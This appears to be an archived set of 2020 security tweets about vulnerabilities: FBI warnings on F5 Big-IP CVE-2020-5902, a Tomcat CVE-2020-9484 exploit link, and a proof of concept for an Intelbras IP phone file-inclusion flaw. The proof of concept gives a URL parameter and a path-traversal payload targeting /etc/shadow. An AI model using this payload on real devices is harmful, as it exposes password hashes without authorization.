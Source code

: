 
# BleepinComputer
**https://twitter.com/BleepinComputer/status/1292022789059248128 _at 2020-08-08, 09:00:12_**
<blockquote>
The FBI warns of Iranian hackers actively attempting to exploit vulnerable F5 Big-IP ADC devices unpatched against the CVE-2020-5902 unauthenticated remote code execution flaw - @serghei
https://t.co/rcwTyZnqE6
</blockquote>

* https://www.bleepingcomputer.com/news/security/fbi-iranian-hackers-trying-to-exploit-critical-f5-big-ip-flaw/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at 2020-08-06, 01:28:21_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td><img src="pictures/f175ce972d465d819a054870ff0aee805222fd35d85a1f5e53da691523566f13.jpg" alt="f175ce972d465d819a054870ff0aee805222fd35d85a1f5e53da691523566f13.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# behindthebreach
**https://twitter.com/behindthebreach/status/1290860109053284353 _at 2020-08-05, 04:00:07_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) - write-up and exploit https://t.co/YygbwhoXTd #vulnerability #collection #execution #cve_2020_9484 #apache #tomcat
</blockquote>
